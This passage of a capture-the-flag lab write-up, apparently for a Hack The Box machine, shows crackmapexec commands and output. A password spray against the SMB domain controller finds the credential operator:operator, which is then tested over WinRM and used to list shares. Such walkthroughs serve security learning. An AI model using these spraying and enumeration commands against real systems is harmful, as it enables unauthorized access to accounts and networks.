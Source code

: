 ##### Password spray attack

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.236 -u usernames_lower.txt -p usernames_lower.txt

<SNIP>
SMB         10.10.11.236    445    DC01             [-] manager.htb\operator:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\operator:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\operator:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\operator:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\operator:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
```

The password spray attack shows valid credential : `operator` : `operator`.
Let's test it with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.236 -u operator -p operator   
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 

┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.11.236 -u operator -p operator
SMB         10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
HTTP        10.10.11.236    5985   DC01             [*] http://10.10.11.236:5985/wsman
WINRM       10.10.11.236    5985   DC01             [-] manager.htb\operator:operator
```

The credential is correct, but cannot use it to `winrm`..

##### Shares

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.11.236 -u operator -p operator --shares
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
SMB         10.10.11.236    445    DC01             [+] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share
```
